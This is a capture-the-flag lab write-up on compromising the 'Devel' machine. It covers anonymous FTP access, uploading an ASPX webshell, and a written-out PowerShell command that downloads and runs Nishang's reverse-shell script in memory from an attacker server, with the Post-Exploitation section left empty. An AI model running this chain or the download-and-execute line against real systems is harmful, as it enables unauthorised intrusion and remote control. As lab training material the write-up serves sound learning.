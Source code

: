 <p align="center">
  <img width="300" src="https://user-images.githubusercontent.com/43796175/107217985-ff302900-69dc-11eb-999b-b1da568d1ff9.jpg" alt="DEVEL: Write Up">
</p>


# 01: Information Gathering

For starting, run nmap with a basic scan:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107400057-70e89f80-6acf-11eb-95f3-6870ccbbe0b0.jpg"></p>

Two open ports can be seen, 21 FTP and 80 HTTP. Now, run again nmap but this time with an more advanced scan against the ports found:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107400771-274c8480-6ad0-11eb-84f7-7b9a8b83b733.jpg"></p>

In this point, you can think about login in FTP with Anonymous credentials (port 21) and go more deep through HTTP and fuzzing (port 80).

# 02: Threat Modeling

Login in FTP with username and password "Anonymous" is possible:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107401864-4bf52c00-6ad1-11eb-9a7b-f795670ea890.jpg"></p>

Think if you can reach any files in the directory through which you had FTP access. For example, try to get through HTTP request the image "welcome.png":

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107403079-b0fd5180-6ad2-11eb-80f8-092abfe6745e.jpg"></p>

Perfect, now you can try upload a webshell and visualize it in the browser:

# 03: Vulnerability Analysis

You can search the webshell necessary simply googling it. I found the next webshell which work fine:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107413191-77324800-6ade-11eb-9dea-e66478f2d98e.jpg"></p>

<p align="center">https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.aspx</p>

With FTP upload the webshell, using "put" command for this purpose:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107413380-b1034e80-6ade-11eb-9557-089ca6cb717b.jpg"></p>

Try to see the webshell through browser, in http://10.10.10.5/cmdasp.aspx:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107413825-34bd3b00-6adf-11eb-825d-a8d618e3ae18.jpg"></p>

You can see that is possible run commands efectly, then the more obviusly thought is get a reverse shell. For this, use Nishang that is a framework and collection of scripts and payloads which enables usage of PowerShell, in concret, you go to use the module of shells PS "Invoke-PowerShellTcp.ps1":

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107414596-39362380-6ae0-11eb-84c9-9d326bf577c9.jpg"></p>

<p align="center">https://github.com/samratashok/nishang/tree/master/Shells</p>

# 04: Exploitation

Download the RAW file of this module:

A goood approach is execute the reverseShell in memory, like Nishang project describe:

*Method 1. Use the in-memory dowload and execute: Use below command to execute a PowerShell script from a remote shell, meterpreter native shell, a web shell etc. and the function exported by it. All the scripts in Nishang export a function with same name in the current PowerShell session.*

The next line is used for this:

``
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
``

# 05: Post-Exploitation

